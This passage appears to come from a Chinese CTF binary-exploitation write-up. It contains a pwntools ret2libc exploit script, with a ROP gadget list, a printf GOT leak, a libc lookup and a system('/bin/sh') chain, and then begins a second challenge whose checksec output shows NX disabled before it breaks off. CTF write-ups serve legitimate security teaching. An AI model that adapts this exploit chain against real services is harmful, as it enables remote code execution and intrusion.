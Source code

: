 ```python
if local_mote==1 :
   p=process(elf)
else :
   p=remote(ip_port[0],ip_port[-1])
"""
0x00000000004006fc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006fe : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400700 : pop r14 ; pop r15 ; ret
0x0000000000400702 : pop r15 ; ret
0x00000000004006fb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006ff : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400578 : pop rbp ; ret
0x0000000000400703 : pop rdi ; ret
0x0000000000400701 : pop rsi ; pop r15 ; ret
0x00000000004006fd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004004ce : ret 
"""
rdi_ret=0x0000000000400703
ret=0x00000000004004ce 

p.sendline('1'*0x28+p64(ret)+p64(rdi_ret)+p64(e.got['printf'])+p64(e.sym['printf'])+p64(e.sym['_start']))

addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print(hex(addr))

x=finder('printf',addr) #Ubuntu GLIBC 2.27-3ubuntu1
#p.sendline('1'*0x28+p64(rdi_ret)+p64(0x601100)+p64(x.dump('gets'))+p64(rdi_ret)+p64(0x601100)+p64(x.dump('puts'))+p64(rdi_ret)+p64(0x601100)+p64(ret)+p64(x.dump('system'))+p64(e.sym['_start']))
#p.sendline('/bin/sh\x00')
p.sendline('1'*0x28+p64(rdi_ret)+p64(x.dump('str_bin_sh'))+p64(ret)+p64(x.dump('system'))+p64(e.sym['_start']))
debug()
p.interactive()
```

## 容易的胖

题目是i386(32位)题目,先看来下了保护发现不仅什么没开.还有读写执行权限(喜).

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

审计下题目代码,发现通过fgets函数用我们可以写入至多256个字节长度的shellcode.

同时,`read(0, &s, 0x14u);`触有栈溢出但只能让我们溢出到`edp`.
